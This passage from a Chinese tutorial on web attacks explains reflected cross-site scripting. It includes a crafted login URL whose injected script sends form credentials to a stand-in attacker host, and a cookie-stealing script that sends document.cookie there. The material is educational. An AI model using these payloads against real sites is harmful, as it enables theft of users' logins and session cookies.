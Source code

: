 &emsp;&emsp;浏览器打开该URI后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后，就会直接发送到攻击者的网站(也就是`hackr.jp`)，导致个人登录信息被窃取

![webAttack9](https://pic.xiaohuochai.site/blog/HTTP_webAttack9.png)

&emsp;&emsp;之后，ID及密码会传给该正规网站，而接下来仍然按正常登录步骤，用户很难意识到自己的登录信息已泄露

&emsp;&emsp;对`http://example.jp/login?ID=yama`请求时对应的HTML源代码(摘录)

<div>
<pre>&lt;div class="logo"&gt;
&emsp;&emsp;&lt;img src="imglogo.gif" alt="E! 拍卖会" /&gt;
&lt;/div&gt;
&lt;form action="http://example.jp/login" method="post" id="login"&gt;
&lt;div class="input_id"&gt;
&emsp;&emsp;ID &lt;input type="text" name="ID" value="yama" /&gt;    
&lt;/div&gt;</pre>
</div>

&emsp;&emsp;`http://example.jp/login?ID="&gt;&lt;script&gt;var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";&lt;/script&gt;&lt;span+s="`对请求时对应的HTML源代码(摘录)

<div>
<pre>&lt;div class="logo"&gt;
&emsp;&emsp;&lt;img src="imglogo.gif" alt="E! 拍卖会 /&gt;
&lt;/div&gt;
&lt;form action="http://example.jp/login" method="post" id="login"&gt;
&lt;div class="input_id"&gt;
&emsp;&emsp;ID &lt;input type="text" name="ID" value=""&gt;&lt;script&gt;var f=document.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method="get";&lt;/script&gt;&lt;span s=""/&gt;
&lt;/div&gt;</pre>
</div>

**对用户Cookie的窃取攻击**

&emsp;&emsp;除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie信息

<div>
<pre>&lt;script src=http://hackr.jp/xss.js&gt;&lt;/script&gt;</pre>
</div>

&emsp;&emsp;该脚本内指定的`http://hackr.jp/xss.js`文件。即下面这段采用JavaScript编写的代码

<div>
<pre>var content = escape(document.cookie);
document.write("&lt;img src=http://hackr.jp/?");
document.write(content); 
document.write("&gt;");</pre>
</div>

&emsp;&emsp;在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段JavaScript程序，即可访问到该Web应用所处域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站(`http://hackr.jp/`)，记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie信息了

![webAttack10](https://pic.xiaohuochai.site/blog/HTTP_webAttack10.png)

【SQL注入攻击】
